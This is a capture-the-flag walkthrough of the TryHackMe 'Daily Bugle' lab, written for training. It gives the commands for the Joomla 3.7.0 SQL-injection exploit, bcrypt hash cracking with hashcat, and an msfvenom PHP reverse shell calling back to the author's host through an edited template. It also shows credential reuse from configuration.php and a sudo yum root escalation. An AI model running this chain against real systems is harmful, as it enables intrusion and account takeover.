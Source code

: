 ```yaml
---
title: TryHackMe Daily Bugle
date: 2025-01-03
categories: CTFs
tags: tryhackme
---
```



![](/assets/img/daily_bugle/daily_bugle.png){: width=1000 height=200 }


# Information Gathering
We are instructed as follows:

> Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

And we are given the target IP address `10.10.89.186`.

Our objectives are to

1. determine who robbed the bank,
2. identify the version of Joomla running on the web server,
3. obtain the user flag, and
4. obtain the root flag.


# Enumeration
We begin with an `nmap` scan `nmap -sS -T5 -sC -sV 10.10.89.186`, revealing

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

Upon navigating to the web server on port `80/TCP`, the front-page article discloses that it was "Spider-Man" who
robbed the bank. 

Fuzzing for directories with 
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
-u http://10.10.121.232/FUZZ -ic
``` 
yields

```
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 118ms]
                        [Status: 200, Size: 9259, Words: 441, Lines: 243, Duration: 223ms]
media                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 102ms]
templates               [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 102ms]
modules                 [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 98ms]
bin                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 99ms]
plugins                 [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 97ms]
includes                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 99ms]
language                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 98ms]
components              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 100ms]
cache                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 100ms]
libraries               [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 98ms]
tmp                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 99ms]
layouts                 [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 102ms]
administrator           [Status: 301, Size: 243, Words: 14, Lines: 8, Duration: 95ms]
cli                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 104ms]
                        [Status: 200, Size: 9259, Words: 441, Lines: 243, Duration: 218ms]
```


To determine the Joomla version, we happen upon the web page [https://docs.joomla.org/How_to_check_the_Joomla_version%3F](https://docs.joomla.org/How_to_check_the_Joomla_version%3F), which suggests that we visit the URL 
`http://10.10.89.186/languages/en-GB/en-GB.xml`. However, this endpoint does not exist; instead, we visit
`http://10.10.89.186/language/en-GB/en-GB.xml`, upon which we find 

```
<metafile version="3.7" client="site">
<name>English (en-GB)</name>
<version>3.7.0</version>
...
```

Hence, we conclude that the web server is running Joomla version `3.7.0`.

# Exploitation
We find CVE-2017-8917 after some research. We also find a python implementation at [https://github.com/XiphosResearch/exploits/tree/master/Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).
Next, we clone the repository with  
`git clone https://github.com/XiphosResearch/exploits/tree/master`. Running
the exploit with `python3 joomblah.py http://10.10.89.186/` outputs

```
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com',
'$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```

To crack the hash, we create a file `hash.txt` and copy into it the hash `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`. We then go to the web page `https://hashes.com/en/tools/hash_identifier` and use the provided
tool to discover that the hash type is  
`bcrypt $2*$, Blowfish (Unix)`. By running `hashcat --help`, we find that
the hash mode for this hash is `3200`. Then, we pass the file, along with the `rockyou.txt` wordlist, to hashcat
to perform a dictionary attack with the command

```bash
hashcat -D 2 -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
``` 

This quickly reveals Jonah's cracked password.

With this password, we sign in to the Joomla administrative panel at `http://10.10.89.186/administrator` as
the user `jonah`, and we generate a php web shell using  
`msfvenom -p php/reverse_php -o shell.php LHOST=10.6.4.176`.

To upload the file, we navigate to the `Templates` tab and modify the Protostar
template by copying into `index.php` the contents from our shell, `shell.php`. 

![](/assets/img/daily_bugle/templates.png)

Afterward, we 
set up a netcat listener with `ncat -lvnp 4444` and navigate to `http://10.10.89.186/index.php`.
This gives us a shell as `apache`.

# Post-Exploitation
By executing `ls -al /home`, we notice that the only user with a home directory is `jjameson`, and that, unfortunately,
we do not have read access to `/home/jjameson`. Nevertheless, we find a file named `configuration.php` in the web root directory `/var/www/html`, which contains the line  
`public $password = 'DOITURSELF:)';`. This password allows us to sign in as `jjameson` with `ssh jjameson@10.10.89.186`. We are then able to capture the user flag:

![](/assets/img/daily_bugle/user.txt.png)



Running `sudo -l`, we notice that we have sudo permissions for `yum` and use the the method demonstrated in part (b) 
of the article at [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/) to obtain a root shell. With this shell, we capture the root flag:

![](/assets/img/daily_bugle/root.txt.png)
